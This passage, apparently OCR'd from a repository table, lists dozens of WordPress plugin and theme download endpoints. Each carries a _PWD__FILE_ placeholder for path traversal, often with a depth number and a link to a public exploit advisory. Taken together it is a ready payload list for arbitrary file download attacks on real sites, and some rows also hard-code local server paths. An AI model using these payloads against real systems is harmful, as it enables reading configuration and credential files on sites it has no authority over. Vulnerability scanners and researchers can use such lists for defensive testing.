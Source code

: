 |/wp-content/plugins/document_manager/views/file_download.php?fname=_PWD__FILE_|2                            |      |
|/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=_PWD__FILE_&file_size=10|4                            |      |
|/wp-content/plugins/history-collection/download.php?var=_PWD__FILE_|3                            |      |
|/wp-content/plugins/hwm_board/download.php?filename=_PWD__FILE_|0                            |      |
|/wp-content/plugins/hwm_board/download.php?filename=_PWD__FILE_&fileNa=_PWD__FILE_|0                            |      |
|/wp-content/plugins/image-export/download.php?file=_PWD__FILE_|0                            |      |
|/wp-content/plugins/justified-image-grid/download.php?file=file:///C:/wamp/www/_PWD__FILE_|0                            |      |
|/wp-content/plugins/justified-image-grid/download.php?file=file:///C:/xampp/htdocs/_PWD__FILE_|0                            |      |
|/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/_PWD__FILE_|0                            |      |
|/wp-content/plugins/mdc-youtube-downloader/includes/download.php?file=_PWD__FILE_|0                            |      |
|/wp-content/plugins/membership-simplified-for-oap-members-only/download.php?download_file=_PWD__FILE_|6                            |      |
|/wp-content/plugins/recent-backups/download-file.php?file_link=_PWD__FILE_|0                            |      |
|/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?name=_PWD__FILE_&path=_PWD__FILE_|7                            |      |
|/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=_PWD__FILE_|7                            |      |
|/wp-content/plugins/sermon-shortcodes/download.php?file=_PWD__FILE_|0                            |https://packet..com/files/150507/...bitrary-File-Download.html|
|/wp-content/plugins/uploadingdownloading-non-latin-filename/download.php?id=_PWD__FILE_|0                            |https://cxsecurity.com/issue/WLB-2018110241|
|/wp-content/plugins/Wordpress/Aaspose-pdf-exporter/aspose_pdf_exporter_download.php?file=_PWD__FILE_|3                            |https://dl.packe...503-exploits/wpaspose-disclose.txt|
|/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=_PWD__FILE_|9                            |https://www.exploit-db.com/exploits/37530|
|/wp-content/plugins/wp-filemanager/incl/libfile.php?&path=_PWD_&filename=_FILE_&action=download|2                            |https://wp.com/vulnerabilities/6499|
|/wp-content/plugins/wp-mon/assets/download.php?type=octet/stream&path=_PWD__FILE_&name=_PWD__FILE_|0                            |      |
|/wp-content/plugins/wp-swimteam/include/user/download.php?file=_PWD__FILE_&filename=_PWD__FILE_&contenttype=text/html&transient=1&abspath=/usr/share/wordpress|0                            |https://www.exploit-db.com/exploits/37601|
|/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=_PWD__FILE_|0                            |      |
|/wp-content/themes/acento/includes/view-pdf.php?download=1&file=/path/_PWD__FILE_|0                            |      |
|/wp-content/themes/antioch/lib/scripts/download.php?file=_PWD__FILE_|5                            |      |
|/wp-content/themes/authentic/includes/download.php?file=_PWD__FILE_|4                            |      |
|/wp-content/themes/churchope/lib/downloadlink.php?file=_PWD__FILE_|4                            |      |
|/wp-content/themes/epic/includes/download.php?file=_PWD__FILE_|0                            |      |
|/wp-content/themes/erinvale/download.php?file=_PWD__FILE_|3                            |https://dl.pac.../1808-exploits/wpdreamsmiths-disclose.txt|
|/wp-content/themes/felis/download.php?file=_PWD__FILE_|0                            |      |
|/wp-content/themes/fiestaresidences/download.php?file=_PWD__FILE_|3                            |https://dl.packe.../1808-exploits/wpdreamsmiths-disclose.txt|
|/wp-content/themes/hsv/download.php?file=_PWD__FILE_|3                            |https://dl.packet.../1808-exploits/wpdreamsmiths-disclose.txt|
|/wp-content/themes/linenity/functions/download.php?imgurl=_PWD__FILE_|4                            |      |
|/wp-content/themes/lote27/download.php?download=_PWD__FILE_|3                            |      |
|/wp-content/themes/markant/download.php?file=_PWD__FILE_|2                            |      |
|/wp-content/themes/MichaelCanthony/download.php?file=_PWD__FILE_|3                            |      |
|/wp-content/themes/mTheme-Unus/css/css.php?files=_PWD__FILE_|4                            |      |
|/wp-content/themes/NativeChurch/download/download.php?file=_PWD__FILE_|4                            |      |